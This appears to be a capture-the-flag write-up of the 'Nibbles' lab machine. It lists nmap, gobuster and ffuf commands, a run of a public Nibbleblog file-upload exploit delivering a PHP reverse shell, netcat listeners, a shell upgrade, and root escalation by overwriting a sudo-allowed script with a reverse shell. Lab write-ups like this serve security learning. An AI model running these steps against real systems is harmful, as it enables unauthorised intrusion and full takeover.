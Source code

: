 **Ping** 
```
ping 10.10.10.75 
```
![[Pasted image 20240616130540.png]]

**Nmap default Scan**
```
nmap 10.10.10.75 -oN dnmap
```
![[Pasted image 20240616130724.png]]

**Nmap Script and Service Scan**
```
nmap 10.10.10.75 -sC -sV -A -oN snmap
```
![[Pasted image 20240616130804.png]]

Nmap All Port Scan
```
nmap -p- --min-rate 10000 10.10.10.75 -sC -sV -A -oN anmap
```
![[Pasted image 20240616131404.png]]
No hidden ports.

On port 80
![[Pasted image 20240616131453.png]]
Nothing Interesting on the main page

On Source Code
![[Pasted image 20240616131546.png]]
So there must be something in /nibbleblog directory

On /nibbleblog
![[Pasted image 20240616131630.png]]
Coool...!

Gobuster Scan
```
gobuster dir -u http://10.10.10.75/nibbleblog -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x php,html,txt,bak,conf -s 200,204,301,302,307,403 -k --status-codes "" -o gobuster1.txt
```
![[Pasted image 20240616131829.png]]
Found some interesting directories.

On ffuf Scan
```
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.75/nibbleblog/FUZZ -t 100 -o ffuf.txt
```
![[Pasted image 20240616131954.png]]

Lets read README file 
![[Pasted image 20240616133022.png]]
We got Version info

Will jump to Initial Foothold....!

Will Search for public Exploit.
![[Pasted image 20240616133130.png]]
Found one https://github.com/dix0nym/CVE-2015-6967

Will run the exploit accordingly
```
python3 exp.py --url http://10.10.10.75/nibbleblog/ --username admin --password nibbles --payload rev.php
```
![[Pasted image 20240616133212.png]]

Got shell
```
rlwrap nc -nvlp 443
```
![[Pasted image 20240616133238.png]]

Lets upgrade the shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
![[Pasted image 20240616133435.png]]

Found user.txt location
```
find / -type f -name "user.txt" 2>/dev/null
```
```
cd /home/nibbler
```
![[Pasted image 20240616133712.png]]

Got user.txt
![[Pasted image 20240616143402.png]]

Will jump to Privilege escalation....!




Will check our sudo privileges
```
sudo -l
```
![[Pasted image 20240616133911.png]]
Interesting...!

Lets check is there a file named monitor.sh or will create one
![[Pasted image 20240616134002.png]]
There a zip file

Will unzip it
```
unzip personal.zip
```
![[Pasted image 20240616134059.png]]
Got it...!

Will exploit this to escalate our Privileges

The original script
![[Pasted image 20240616142725.png]]

My permission on the file
```
ls -la
```
![[Pasted image 20240616142759.png]]

I have full permissions, so removed original script and replaced with my reverse shell script
```
cat monitor.sh
```
![[Pasted image 20240616142904.png]]

Now we can run this script as sudo
```
chmod +x monitor.sh
```
```
sudo ./monitor.sh
```
![[Pasted image 20240616143004.png]]

Set up listener to catch reverse shell
```
rlwrap nc -nvlp 443
```
![[Pasted image 20240616143109.png]]
Coool, got shell as root......!

Will get root.txt 
![[Pasted image 20240616143205.png]]



I'm done with Nibbles.....:)